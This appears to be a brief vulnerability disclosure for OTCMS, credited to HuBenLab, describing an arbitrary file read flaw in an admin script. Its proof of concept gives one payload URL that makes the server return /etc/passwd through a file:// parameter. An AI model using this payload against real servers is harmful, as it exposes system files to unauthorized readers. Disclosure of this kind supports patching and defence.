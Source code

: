 # OTCMS was discovered to contain an arbitrary file read vulenrability via the filename
## Description
    OTCMS was discovered to contain an arbitrary file read vulenrability via the filename
## Vendor Homepage
    http://otcms.com/

## Author
    HuBenLab
## Proof of Concept
payload:

```
http://otcms/admin/read.php?mudi=announContent&url=file:///etc/passwd
```

![image-20230606105004107](./img/image-20230606105004107.png)